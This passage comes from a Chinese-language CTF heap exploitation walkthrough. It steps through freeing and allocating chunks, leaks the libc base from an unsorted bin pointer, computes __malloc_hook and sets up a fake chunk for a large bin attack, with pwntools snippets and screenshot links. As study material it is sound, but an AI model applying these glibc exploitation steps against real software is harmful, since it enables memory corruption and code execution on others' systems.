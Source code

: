 ```bash
delete(1)
```

[![](assets/1701612337-20e7a24c39eb53a86680cee89ccee6b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172929-f04adb06-1d71-1.png)

```bash
delete(3)
delete(5)
```

可以看到禁掉 fast bins 后，0x30 大小的 chunk 也进入 unsorted bin 中了  
[![](assets/1701612337-bfe8abace15901e10d226cfa1124b23b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172944-f92742d2-1d71-1.png)

```bash
show(1)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak("libc_base ",libc_base)
malloc_hook=libc_base+libc.sym['__malloc_hook']
leak('malloc_hook',malloc_hook)
fake_chunk = malloc_hook - 0x50
```

[![](assets/1701612337-b322b721794a9ee07cec88181f25bb1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172959-02372202-1d72-1.png)

```bash
add(0x20)
```

在 fast bins 中找不到合适大小的 chunk，于是遍历 unsorted bin，把 unsorted bin 中的 chunk 放到对应大小的 bin 中（这里 unsored bin 中虽然有对应大小的 chunk，但是正常流程是再 fast bins 中找到的，所以这里仍然需要遍历）  
[![](assets/1701612337-6ef09fa7fe3450b2b65f9f9fc15aab5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173020-0ef16fac-1d72-1.png)

```bash
add(0x410)  #3
delete(3)
```

申请后再次释放就链入了 unsorted bin 中，同时也满足了 unsorted bin 中的 chunk 比 large bin 中的大  
[![](assets/1701612337-96324ceff774d08b42d148d0ebdec73a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173038-1960495e-1d72-1.png)
